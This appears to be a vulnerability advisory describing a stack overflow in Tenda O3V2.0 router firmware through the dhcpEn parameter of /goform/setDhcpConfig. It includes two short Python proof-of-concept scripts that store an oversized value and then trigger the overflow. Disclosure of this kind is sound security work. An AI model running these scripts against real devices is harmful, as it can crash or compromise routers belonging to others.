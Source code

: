 ## Summary

A stack overflow vulnerability exists in the Tenda O3V2.0 V1.0.0.10(2478) firmware. The `dhcpEn` POST parameter accepted by `/goform/setDhcpConfig` is written to the configuration key `dhcps.en` via `SetValue` without length or content validation. The stored value is later read (via `/goform/getDhcpConfig`) and stored on the stack. Since there is no limit on the length of the stored value, it can lead to stack overflow.

## Affected product & versions

- **Vendor:** Tenda
- **Product:** O3V2.0 (firmware)
- **Affected version:** V1.0.0.10(2478)
- **Download:** https://www.tenda.com.cn/download/detail-2832.html

## Vulnerability type

- **Type:** Stack overflow
- **Root cause:** Missing input validation / insufficient sanitization and lack of length checks in `SetValue` and `GetValue` functions that handle `dhcps.en`.

## Technical details

- The `setDhcpConfig` endpoint accepts a POST parameter `dhcpEn` and calls `SetValue("dhcps.en", Var)` without enforcing a maximum length.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_112937.png)

- The `getDhcpConfig` endpoint retrieves the `dhcpEn` parameter using `GetValue("dhcps.en", v15)` and stores it on the stack without proper boundary checks, which may result in a stack overflow vulnerability.

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_113229.png)

Both `SetValue` and `GetValue` lack proper validation of the value contents and length.

## Proof of Concept

1. **Store a malicious `dhcps.en` value**

```python
# poc_set.py
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/setDhcpConfig"
payload =  b"a"*1000

data = {"dhcpEn":payload}
response = requests.post(url, data=data)
print(response.text)
```

2. **Trigger the vulnerable behavior**

```python
# poc_get.py
import requests

ip = "192.168.0.1"
url = "http://" + ip + "/goform/getDhcpConfig"
response = requests.post(url)
print(response.text)
```

3. **Attack result**

![](https://raw.githubusercontent.com/abcdefg-png/images2/main/%E5%B1%80%E9%83%A8%E6%88%AA%E5%8F%96_20251011_104719.png)